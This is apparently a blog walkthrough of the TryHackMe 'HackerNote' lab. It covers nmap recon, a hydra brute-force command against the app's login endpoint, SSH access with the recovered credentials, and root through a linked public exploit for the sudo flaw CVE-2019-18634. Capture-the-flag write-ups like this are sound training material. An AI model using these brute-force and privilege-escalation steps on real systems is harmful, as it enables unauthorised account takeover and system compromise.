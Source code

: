 ```yaml
---
layout: post
title: HackerNote – Try Hack Me
subtitle: Walkthrough
tags: [webbapp]
---
```


HackerNote presents us with a simple web app where the login functionality can be exploited. We will take advantage of this and get full control of the machine.

Learning Objectives:

* Enumeration
* Username Bruteforcing
* Password Bruteforcing
* Priviledge Escalation

[Challenge](https://tryhackme.com/room/hackernote)  

## Task 1 -> Reconnaissance

Initiate the VPN connection and deploy the machine

Add the IP address of our machine to the /etc/hosts

~~~
echo 10.10.69.112 hackernote >> /etc/hosts
~~~

Nmap scan to discover what we are working with

~~~
nmap -A -T5 hackernote
~~~

![nmap](/img/2020-05-04-HackerNote/nmap.png)

## Task 2 -> Investigate

In this section you should explore the webapp capabilities from a new user point of view. 

* Create an account
* Log in
* See how the webapp responds to an invalid user/password

## Task 3 -> Exploit

Looking at the file 'login.js' we find the API endpoint 'api/user/login' this is where we will aim our bruteforce.  
I wrote this exploit using the challenge tips, you must provide the wordlist path in the first argument.


![exploit](/img/2020-05-04-HackerNote/exploit.png)

## Task 4 -> Attack Passwords

Once the utils are installed use the following command to merge the provided wordlists.

~~~
./combinator.bin colors.txt /numbers.txt > wordlist.txt
~~~

Start bruteforcing using hydra with this command

~~~
hydra -l james -P wordlist.txt hackernote http-post-form "/api/user/login:username=^USER^&password=^PASS^:Invalid Username Or Password"
~~~


![hydra](/img/2020-05-04-HackerNote/hydra.png)

Now that we discovered both the username and the password we can log into the user account.  
From the notes get the user's ssh password

![sshPass](/img/2020-05-04-HackerNote/sshPass.png)

We now can log into the machine through ssh

~~~
ssh james@hackernote
~~~

![ssh](/img/2020-05-04-HackerNote/ssh.png)

## Task 5 -> Escalate

From a quick search with the words 'pwdfeedback' and 'CVE' we find 'CVE-2019-18634'

Download the CVE [exploit](https://github.com/saleemrashid/sudo-cve-2019-18634) and compile it with

~~~
make
~~~

SCP the binary into the machine

~~~
scp ./exploit james@hackernote:/home/james 
~~~

Simply run the exploit and get root.

![root](/img/2020-05-04-HackerNote/root.png)

Hope you enjoyed this machine.